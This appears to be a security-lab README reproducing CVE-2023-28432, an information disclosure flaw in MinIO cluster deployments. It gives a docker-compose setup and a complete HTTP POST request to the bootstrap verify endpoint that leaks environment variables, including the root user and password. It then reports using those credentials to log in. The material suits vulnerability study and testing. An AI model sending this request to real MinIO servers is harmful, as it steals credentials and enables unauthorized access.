 # MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

[中文版本(Chinese version)](README.zh-cn.md)

MinIO is a High Performance Object Storage released under GNU Affero General Public License v3.0.

In the version before `RELEASE.2023-03-20T20-16-18Z`, there is an information disclosure vulnerability if MinIO is deployed in cluster mode. An attacker can use an HTTP request to obtain all environment variables of the target process, including `MINIO_SECRET_KEY` and `MINIO_ROOT_PASSWORD`.

References:

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## Vulnerable Environment

Executing following commands to start a MinIO cluster:

```
docker-compose up -d
```

After the cluster has been started, you can browse Web console on `http://your-ip:9001`, API server on `http://your-ip:9000`.

## Vulnerability Reproduce

The issue exists in the API endpoint `http://your-ip:9000/minio/bootstrap/v1/verify`. Send the request to retrieve all environment variables:

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

It can be seen that `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` is exposed.

Success to use this username and password to login the Web console:

![](2.png)
